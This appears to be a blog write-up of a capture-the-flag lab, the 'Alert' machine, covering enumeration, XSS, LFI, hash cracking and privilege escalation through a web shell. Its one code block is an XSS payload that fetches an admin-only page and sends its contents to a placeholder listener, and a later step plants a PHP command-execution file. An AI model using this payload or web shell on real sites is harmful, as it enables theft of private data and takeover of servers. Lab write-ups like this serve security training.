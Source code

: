 ```yaml
---
layout: post
title: "Alert 14eb9525529180c9b200f28db6068308"
date:   2025-07-15 12:05:57 -0400
categories: writeups
---
```


# Alert

# 1. Enumeration

Start enumerating ports, there is a web application running, and a ssh service we may need to find some creds

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image.png' | relative_url }})

We can perform some actions like, view a .md file, exploring the web application there is a message suggesting report any trouble through contact us 

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_1.png' | relative_url }})

# 2. User flag

Let’s keep enumerating the machine listing directories, there is another one called messages, if we try to send a request to it it doesn’t show anything it may be allowed to show info only to admin

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_2.png' | relative_url }})

Messages is also present in here

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_3.png' | relative_url }})

We tried to upload js code to perform a xss attack, it seems to be vulnerable to it but there are no cookies to steal and we are not able to do anything else different from share the .md file, so we could attempt to fetch files as whoever is behind contact us and send that information to a listener we will set up

```jsx
<script>
fetch("http://alert.htb/index.php?page=messages")
	.then(response => response.text())
	.then(data => {
	fetch("http:/0.0.0.0:0000/?data=" + encodeURIComponent(data));
	})
	.catch(error => console.error("Error", error));
</script>
```

Send the payload but before clicking it in share, intercept the request, copy and paste the link and send it to contact us interface

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_4.png' | relative_url }})

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_5.png' | relative_url }})

It will be sent successfully

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_6.png' | relative_url }})

And we will receive the info in the netcat listener

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_7.png' | relative_url }})

Decode it using cyberchef, there is a .txt file on it and it is disclosing the way to access files with messages php script, there may be a LFI 

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_8.png' | relative_url }})

There is a Apache2 server running

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_9.png' | relative_url }})

Check default configuration files

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_10.png' | relative_url }})

It give us the whole configurations and the file where a password is stored

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_11.png' | relative_url }})

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_12.png' | relative_url }})

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_13.png' | relative_url }})

Check the content on .htpasswd

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_14.png' | relative_url }})

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_15.png' | relative_url }})

Albert hash found

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_16.png' | relative_url }})

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_17.png' | relative_url }})

Log in as Albert and  get user flag

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_18.png' | relative_url }})

# 3.Priv esc

To escalate privileges we found in `/opt/website-monitor` files that seems to run a web application, root is the owner but management group can performs some tasks in config files

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_19.png' | relative_url }})

Effectively we are part of management group

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_20.png' | relative_url }})

And there is a local service running on port 8080

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_21.png' | relative_url }})

We could forward that port to get more information of this, but i think that we have the necessary to elevate our privileges, furthermore we have the base path where files are requested

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_22.png' | relative_url }})

1. Create a new .php file opening the door to get requests executing commands
2. Make a request executing whatever command we want through the file we’ve created previously

![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_23.png' | relative_url }})

Machine Pwned!!!
<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>
